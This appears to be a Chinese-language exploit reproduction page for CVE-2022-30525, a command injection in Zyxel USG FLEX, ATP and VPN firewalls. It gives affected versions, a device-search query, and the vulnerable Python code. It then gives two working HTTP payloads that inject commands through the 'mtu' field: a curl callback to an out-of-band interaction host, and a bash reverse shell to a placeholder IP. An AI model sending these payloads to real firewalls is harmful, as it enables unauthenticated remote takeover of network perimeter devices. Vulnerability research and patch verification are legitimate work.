




# Zyxel USG FLEX handler 远程命令执行漏洞 CVE-2022-30525

## 漏洞描述

Rapid7 发现并报告了一个漏洞，该漏洞影响支持零接触配置 (ZTP) 的 Zyxel 防火墙，其中包括 ATP 系列、VPN 系列和 USG FLEX 系列（包括 USG20-VPN 和 USG20W-VPN）。该漏洞标识为 CVE-2022-30525，允许未经身份验证的远程攻击者以nobody受影响设备上的用户身份执行任意代码。

## 漏洞影响

<a-checkbox checked>USG FLEX 100、100W、200、500、700  < ZLD5.00 - ZLD5.21 补丁 1</a-checkbox></br>

<a-checkbox checked>USG20-VPN、USG20W-VPN	 < ZLD5.10 - ZLD5.21 补丁 1</a-checkbox></br>

<a-checkbox checked>ATP 100、200、500、700、800  < ZLD5.10 - ZLD5.21 补丁 1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="USG FLEX" </a-checkbox></br>

## 漏洞复现

登录页面



出现漏洞的文件为  lib_wan_settings.py 下的 setWanPortSt 方法

```java
def setWanPortSt(req):

    reply = {}
    vlan_tagged = ''
    logging.info(req)
    port = req["port"].strip()

    vlanid = req["vlanid"]
    proto = req["proto"]
    data = req["data"]
    vlan_tagged = req["vlan_tagged"]
    
    cmdLine = ''
    GUIportst = {}
    
    extname = findextname(port)

    #TODO: subprocess method
    try:
        if vlan_tagged == '1':
            if vlanid == '':
                vlanid == '0'

        if proto == "dhcp":
            if 'mtu' not in req:
                req['mtu'] = '1500'
            if vlan_tagged == '1':
                cmdLine = '/usr/sbin/sdwan_iface_ipc 11 '
            else:
                cmdLine = '/usr/sbin/sdwan_iface_ipc 1 '
            #extname = findextname(port)
            cmdLine += extname + ' ' + port.lower() + ' ' + req['mtu']
            if vlan_tagged == '1':
                cmdLine += ' ' + vlanid
            if "option60" in data:
                cmdLine += ' ' + data['option60']
            cmdLine += ' >/dev/null 2>&1'
        elif proto == "static":
            if 'mtu' not in req:
                req['mtu'] = '1500'
            prefix_length = netmask_to_cidr(data['netmask'])
            if vlan_tagged == '1':
                cmdLine = '/usr/sbin/sdwan_iface_ipc 12 '
            else:
                cmdLine = '/usr/sbin/sdwan_iface_ipc 2 '
            #extname = findextname(port)
            cmdLine += extname + ' ' + port.lower() + ' ' + data['ipaddr'] + ' ' + str(prefix_length) + ' ' + data['gateway'] + ' ' + req['mtu']
            if vlan_tagged == '1':
                cmdLine += ' ' + vlanid
            cmdLine += ' ' + data['firstDnsServer']
            if 'secondDnsServer' in data:
                cmdLine += ' ' + data['secondDnsServer']
            cmdLine += ' >/dev/null 2>&1'
        elif proto == "pppoe":
            if vlan_tagged == '1':
                cmdLine = '/usr/sbin/sdwan_iface_ipc 13 '
            else:
                cmdLine = '/usr/sbin/sdwan_iface_ipc 3 '
            #extname = findextname(port)

            if 'auth_type' not in data:
                data['auth_type'] = 'chap-pap'
            if 'mtu' not in req:
                req['mtu'] = '1492'
            if 'ipaddr' not in data:
                data['ipaddr'] = '0.0.0.0'
            if 'gateway' not in data:
                data['gateway'] = '0.0.0.0'
            if 'firstDnsServer' not in data:
                data['firstDnsServer'] = '0.0.0.0'

            cmdLine += extname + ' ' + port.lower() + ' ' + data['username'] + ' ' + data['password'] \
                + ' ' + data['auth_type'] \
                + ' ' + data['ipaddr'] + ' ' + data['gateway'] \
                + ' ' + data['firstDnsServer'] + ' ' + req['mtu']
            if vlan_tagged == '1':
                cmdLine += ' ' + vlanid
            cmdLine += ' >/dev/null 2>&1'
            
        logging.info("cmdLine = %s" % cmdLine)
        with open("/tmp/local_gui_write_flag", "w") as fout:
            fout.write("1");

        response = os.system(cmdLine) 
        logging.info(response)
        if response != 256:
            logging.info("cmd thread return error")
            reply = {"error": 500}
        else:
            logging.info("cmd success!!")
            reply["stdout"] = [{}]
            reply["stderr"] =""
            with open(WAN_PORT_LAST_CHANGED, "w") as fout:
                fout.write(port)
            if not os.path.exists(ztpinclude.PATH_WAN_MODIFIED_TO_CLOUD):
                reply = {"error": 500, "exception": "Cannot find data2cloud folder!"}
            with open(ztpinclude.PATH_WAN_MODIFIED_TO_CLOUD + 'local_wan_modified', 'a+') as fout:
                fout.write(port + ' ')
            
    except Exception as e:
        reply = {"error": 500, "exception": e}
   
    return reply
```

从源码里可以看到拼接的参数为 `mtu` , 随后直接 `os.system` 命令执行



验证POC

```java
POST /ztp/cgi-bin/handler HTTP/1.1
Host: 
Content-Type: application/json

{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged":"1","vlanid":"5","mtu":";curl `id`.c9y7h342vtc00002dwxggr9tukwyyyyyj.interact.sh;","data":"hi"}
```



反弹Shell

```java
POST /ztp/cgi-bin/handler HTTP/1.1
Host: 
Content-Type: application/json

{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged":"1","vlanid":"5","mtu":";bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1';","data":"hi"}
```

